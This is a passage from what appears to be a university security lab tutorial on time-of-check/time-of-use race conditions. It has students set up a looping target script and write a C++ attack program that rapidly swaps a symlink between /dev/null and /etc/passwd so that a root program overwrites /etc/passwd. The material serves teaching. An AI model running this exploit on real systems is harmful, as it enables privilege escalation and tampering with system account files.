 1. Edit a bash shell script that will continuously call the vulnerable program in a while loop.
    ```bash
    $ nano target_process.sh
    ```

2. In the bash shell script `target_process.sh` change the name of the target file from `/tmp/yournetid.txt` to use your `netid`.

3. Set the permission of `target_process.sh` so that it is executable.
    ```bash
    $ chmod 755 target_process.sh
    ```

#### The attack process program

We need an attack process program to run in parallel to the target process. This attack program will rapidly switch the target file `/tmp/yournetid.txt` back and forth from a file that is writable by the user that can pass the `access()` function (__Time-Of-Check__) to a file the is writable only by root that can be modified by the `open()` function (__Time-Of-Use__). To do this we are going to use the Linux file system ability to create symbolic links between files. 

__attack_process.cpp__
```c++
#include <iostream>
#include <unistd.h>
using namespace std;

int main(int argc, char* argv[])
{
    // If the argument count is not 2, print the usage message.
    if (argc != 2) 
    {
        cerr << "Usage: " << argv[0] << " <filename>" << endl;
        exit(1);
    }

    // The filename passed as a command line argument.
    const char* filename = argv[1]; 

    while(true)
    {
        unlink(filename);
        // First link to a file that is writable by everyone.
        // This should allow us to pass the `access()` function 
        // during the (Time-Of-Check)
        symlink("/dev/null", filename);
        usleep(100);  // Sleep for 100 microseconds

        unlink(filename);
        // Next link to a file that is writable by root only.
        // The /etc/passwd file!
        // This should allow us to use the `open()` function 
        // during the (Time-Of-Use)
        symlink("/etc/passwd", filename);
        usleep(100);
    }

    return 0;
}
```

